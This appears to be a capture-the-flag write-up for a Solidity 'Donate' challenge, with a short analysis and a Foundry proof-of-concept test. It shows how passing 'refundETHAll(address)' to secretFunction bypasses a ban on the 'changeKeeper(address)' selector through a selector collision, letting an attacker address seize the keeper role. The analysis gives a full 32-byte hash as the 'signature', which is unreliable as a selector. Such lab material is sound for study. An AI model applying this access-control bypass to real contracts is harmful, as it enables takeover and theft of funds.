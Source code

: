 # Analysis:
The key is to use the `secretFunction()` to call the `changeKeeper()`, the parameter should be `changeKeeper(address)`, or any function with same signature.

The signature of `changeKeeper(address)` is `0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428` which is banned, but we can use another function name `refundETHAll(address)`.

# POC (Foundry)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "forge-std/Test.sol";
import "../src/donate.sol";

contract donateHack is Test {
	Donate donate;
	address keeper = makeAddr("keeper");
	address owner = makeAddr("owner");
	address hacker = makeAddr("hacker");

	function setUp() public {
		vm.prank(owner);
		donate = new Donate(keeper);
		console.log("keeper2 - ", donate.keeper());
	}

	function testhack() public {
		vm.startPrank(hacker);
		// Hack Time

		donate.secretFunction(string("refundETHAll(address)"));

		require(donate.keeperCheck(), "not pass !!!!!!");
	}
}


```

